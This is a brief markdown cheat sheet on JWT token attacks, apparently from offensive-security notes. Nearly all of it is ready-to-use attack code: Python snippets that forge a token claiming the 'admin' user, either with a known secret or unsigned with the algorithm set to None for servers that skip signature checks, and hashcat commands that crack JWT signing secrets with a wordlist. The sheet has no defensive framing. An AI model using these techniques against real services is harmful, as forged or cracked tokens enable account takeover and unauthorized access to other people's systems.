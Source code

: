 # JWT token attacks

### Forging own JWT tokens

pyjwt - python library for JWT

```python
import jwt

jwt_token = jwt.encode({"username":"admin", "created":"0"}, key="SECRETKEY", algorithm="HS256")
jwt_token = jwt_token.decode("UTF-8")

print(jwt_token)
```

### No signature check

Sometimes server does not check token signature. In that case, we can change token data and send modified token

```python
import jwt

jwt_token = jwt.encode({"username":"admin", "created":"0"}, key=None, algorithm=None)
jwt_token = jwt_token.decode("UTF-8")

print(jwt_token)
```

### Cracking JWT tokens

```
hashcat -m 16500 JWT_FILE WORDLIST
hashcat -m 16500 JWT_FILE --show
```
